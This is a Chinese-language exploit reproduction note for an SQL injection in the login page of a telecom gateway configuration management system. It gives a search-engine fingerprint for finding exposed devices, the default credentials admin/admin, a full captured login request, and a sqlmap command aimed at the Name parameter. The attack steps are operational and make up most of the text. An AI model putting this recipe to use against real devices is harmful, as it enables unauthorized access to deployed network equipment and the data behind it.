

# 电信 网关配置管理系统 login.php SQL注入漏洞

## 漏洞描述

电信网关配置管理系统 前台登陆页面用户名参数存在SQL注入漏洞

## 漏洞影响

```
电信网关配置管理系统
```

## 网络测绘

```
body="src="img/dl.gif"" && title="系统登录"
```

## 漏洞复现

登录页面如下


设备存在默认弱口令 **admin/admin**


登录的请求包为

```plain
POST /manager/login.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 53
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=2lfi6enp5gehalrb92594c80i6
Connection: close

Name=admin&Pass=admin
```

保存为文件使用 Sqlmap工具，注入点为 **Name参数**

```plain
sqlmap -r sql-1.txt -p Name --risk 3
```



#